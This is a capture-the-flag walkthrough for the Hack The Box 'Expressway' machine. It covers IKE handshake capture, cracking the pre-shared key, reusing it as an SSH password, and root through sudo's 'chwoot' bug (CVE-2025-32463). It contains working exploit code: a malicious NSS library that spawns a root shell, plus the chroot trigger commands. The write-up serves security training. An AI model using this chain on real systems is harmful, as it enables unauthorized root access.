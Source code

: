 # expressway (HTB) – full walkthrough

**Target:** `10.10.11.87`  
**Attacker:** `Kali`  
**Goal:** `user` + `root`

> ⚠️ For educational/CTF use.

---

## 0) Quick prep (optional but handy)

Add the host to your `/etc/hosts` so the domain that leaks later makes sense:

```bash
echo "10.10.11.87 expressway.htb" | sudo tee -a /etc/hosts
```

## 1) Recon – find the interesting service

We already know this is about IKE (UDP/500):

```bash
nmap -sU -p 500 -A 10.10.11.87
```

Result: UDP/500 open, IKEv1, Aggressive Mode traits and XAUTH + Dead Peer Detection. That’s the classic “grab the Aggressive Mode handshake and crack the PSK” situation.

## 2) Capture an IKE Aggressive Mode handshake

```bash
ike-scan -P -M -A -n fakeID 10.10.11.87
```

-A Aggressive mode

-n fakeID supplies a dummy ID to trigger a response

-M multiline dump

-P prints crackable fields (you’ll copy them next)
## What to save: the long colon-separated line after “IKE PSK parameters”. Put it in a file:
```bash
# paste the long "g_xr:...:hash_r" line into psk.txt
nano psk.txt
```

## 3) 3) Crack the PSK

Dictionary crack against RockYou:

```bash
psk-crack --dictionary /usr/share/wordlists/rockyou.txt psk.txt
```
You hit: fre****************

Verify the PSK works:

```bash
ike-scan -A -n ike@expressway.htb --psk=fre**************** 10.10.11.87
```
You should see another Aggressive Mode handshake returned.

## 4) Extra enum – TFTP config (optional but confirms clues)

A TFTP service exposes a router config that reinforces the ike user/realm:

```bash
nmap -sU -p 69 --script tftp-enum 10.10.11.87
# shows ciscortr.cfg
tftp 10.10.11.87 -c get ciscortr.cfg
cat ciscortr.cfg
```

You saw ciscortr.cfg via NSE. Contents typically hint at the same domain/user and VPN bits.

## 5) Foothold – SSH reuse of the PSK

Try the leaked identity as a system user with the same password (common HTB trick on this box):

```bash
ssh ike@10.10.11.87
# password:
#   fre****************
cat ~/user.txt
***********************************
```

## 6) Privilege escalation – vulnerable SUID sudo (“chwoot”)

On the host:

```bash
ls -l /usr/local/bin/sudo
/usr/local/bin/sudo -V | head -n1
```


box:

SUID root: /usr/local/bin/sudo

Version: Sudo version 1.9.17

Sudo 1.9.14–1.9.17 has a critical local privesc dubbed “chwoot” (CVE-2025-32463). The bug is in the --chroot (-R) path: when you run sudo with a user-controlled root dir, it consults NSS config from that directory and can be steered to load a malicious NSS library as root, yielding an instant root shell. Fixed in 1.9.17p1.

There’s also a related host-check bug, CVE-2025-32462, where sudo -h <host> can bypass host-tied sudoers rules; it was also fixed in 1.9.17p1. We don’t need it here.

Exploit steps

```bash
STAGE=$(mktemp -d /tmp/sudowoot.XXXXXX); cd "$STAGE"

// woot1337.c
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void woot(void){
    setreuid(0,0); setregid(0,0);
    chdir("/"); execl("/bin/bash","bash","-p",NULL);
}

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc   # prevents NSS from crashing
```

Build the shared object:

```bash
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

/usr/local/bin/sudo -R woot woot

cat /root/root.txt
***********************************
```

Why it works: vulnerable sudo (≤ 1.9.17) honors an attacker-controlled chroot and evaluates NSS from the fake root, loading /libnss_/woot1337.so.2 and executing its constructor as root. Patched in 1.9.17p1. Detections in the wild key off suspicious sudo -R usage with attacker-seeded nsswitch.conf.







